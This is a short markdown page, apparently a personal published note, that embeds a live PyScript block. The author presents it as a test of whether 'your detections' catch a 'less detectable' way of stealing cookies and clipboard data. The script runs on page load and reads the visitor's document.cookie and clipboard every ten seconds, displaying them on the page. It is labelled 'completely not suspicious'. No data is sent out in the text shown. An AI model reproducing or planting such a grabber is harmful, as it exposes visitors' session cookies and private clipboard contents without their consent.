 ```yaml
---
publish: true
title: pyscript-test
---
```

# What is this?
Well, I wanted to embed something else, but instead, how about I just show you what pyscript can do and see if your detections catch it! :D
## what?
So pyscript is really pretty neat, but it seems like it's just pythonic commands for javascript and not really a python runtime, so that brings limitations. Even so, pretty fun because it's super easy to make less detectable ways of stealing cookies and clipboard data.

<div id="c"></div>
<script type="module" src="https://pyscript.net/releases/2025.2.1/core.js"></script>
<script type="py" config='{"name": "completely not suspicious", "packages": ["asyncio"]}'>
import asyncio, js, pyscript, base64, urllib
from pyodide.ffi import create_proxy
import warnings
warnings.filterwarnings("ignore")

from js import XMLHttpRequest
from io import StringIO
from pyscript import document

async def get_clipboard_data():
        try:
            all_cookies = document.cookie
            text_data = await js.navigator.clipboard.readText()
	        pyscript.display("Cookies:<br>"+all_cookies+"<br>ClipBoard:<br>"+text_data)
        except:
            pass

pyscript.document.querySelector("#c").focus()
get_clipboard_data_proxy = create_proxy(get_clipboard_data)
pyscript.display("Data Found by clicking this page:<p><br>")
async def main():
    while True:
        try:
            asyncio.ensure_future(get_clipboard_data_proxy())
            await asyncio.sleep(10)
        except:
            pass

main()
</script>
